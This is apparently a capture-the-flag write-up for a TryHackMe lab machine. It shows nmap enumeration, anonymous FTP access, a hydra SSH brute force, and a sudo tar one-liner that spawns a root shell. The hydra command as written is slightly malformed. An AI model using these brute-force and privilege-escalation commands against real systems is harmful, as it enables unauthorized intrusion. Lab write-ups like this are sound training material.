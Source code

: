 ### Bounty Hacker CTF Writeup

## Link: https://tryhackme.com/room/cowboyhacker

Our first step is to always begin with enumeration, we can use alot of tools to do this but we are going to use the most popular enumeration tool called 'Nmap' 

`┌──(--㉿kali)-[~]
└─$ nmap 10.10.81.164 -sV -sC
`



`
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3




`
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
`



`
80/tcp open  http    Apache httpd 2.4.18 
`



From this Nmap scan we see that there are 3 ports open: port 21, 22 and 80
Importantly, we see that on port 21 there is 'Anonymous FTP login allowed' (This means that we can login as user anonymous and provide no password)


### The web-server:

If he head over to the website running this machine (which you can access by going to http://<machine_ip>) we are greeted by this main page:

![image](https://github.com/traveller404/Bounty-Hacker-CTF-/assets/92340426/757a9125-6535-4cee-af12-d83a835361d5)

Reading through this we are greeted by characters called Spike, Jet, Ed and Faye and we also learn of 2 other people called Edward and Ein.
These could be possible usernames for the ssh service running on port 22.

Inspecting the source code of the webpage reveals nothing ontop of this.

### The FTP service:

Log into the FTP service on the machine with the following command:

ftp <machine_ip>

Connected to 10.10.81.164.
Name (10.10.81.164:--): anonymous

230 Login successful.

Using `ls` we can see the files on this ftp service and we are told there are 2 .txt files, tasks.txt and locks.txt
Use `mget *` as a means to get all files to your local device then exit the ftp service

### SSH Access

The contents of task.txt contain another person, Lin, but locks.txt is more useful
It is a file containing presumably passwords, and with the list of potential usernames we collected earlier from the website and Lin from task.txt, its time to commence a brute force attack

To do this attack we must make a file containing the usernames, which for convenience sake we will call users.txt and then write our command

`hydra -l users.txt -P locks.txt ssh://<machine_ip -V>`

SUCCESS!!! 
We now have a username and password

### Privelege Escalation

`ssh lin@<machine_ip>`

Logging on we see the first flag, which you can get yourself
But we are not done, we need to get the root flag, which we dont have access to, we need to escalate our privelleges
Using `sudo -l` we can see what we can run as sudo, which is tar, go to https://gtfobins.github.io/# and search up tar, I will let you do this on your own

If you have found the right command it should be 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Executing this gives us root permissions, meaning we have full control over the machine
Change to /root and get the flag

I hope this helps!!
